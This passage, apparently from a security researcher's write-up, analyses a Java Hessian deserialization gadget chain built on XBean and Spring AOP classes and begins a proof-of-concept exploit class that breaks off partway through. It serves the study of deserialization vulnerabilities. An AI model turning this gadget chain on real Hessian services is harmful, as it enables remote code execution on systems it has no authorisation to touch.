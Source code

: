  - Follow up on the `MarshallerBase#makeToStringTriggerUnstable` method, and further call the `ToStringUtil#makeSpringAOPToStringTrigger` method. Here, `HotSwappableTargetSource` will be called to create two objects, and finally `JDKUtil#makeMap` method is the same as the analysis after `RomeGadget`.

```java
@Override
public Object makeToStringTriggerUnstable ( Object obj ) throws Exception {
    return ToStringUtil.makeSpringAOPToStringTrigger(obj);
}
```

```java
public static Object makeSpringAOPToStringTrigger (Object o ) throws Exception {
    return makeToStringTrigger(o, x -> {
        return new HotSwappableTargetSource(x);
    });
}
```

```java
public static Object makeToStringTrigger ( Object o, Function<Object, Object> wrap ) throws Exception {
    String unhash = unhash(o.hashCode());
    XString xString = new XString(unhash);
    return JDKUtil.makeMap(wrap.apply(o), wrap.apply(xString));
}
```

### POC

```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.ContextUtil;
import org.apache.xbean.naming.context.WritableContext;
import org.springframework.aop.target.HotSwappableTargetSource;
import sun.reflect.ReflectionFactory;

import javax.naming.Context;
import javax.naming.Reference;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 1:06 am
 */
public class XBeanGadget {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

```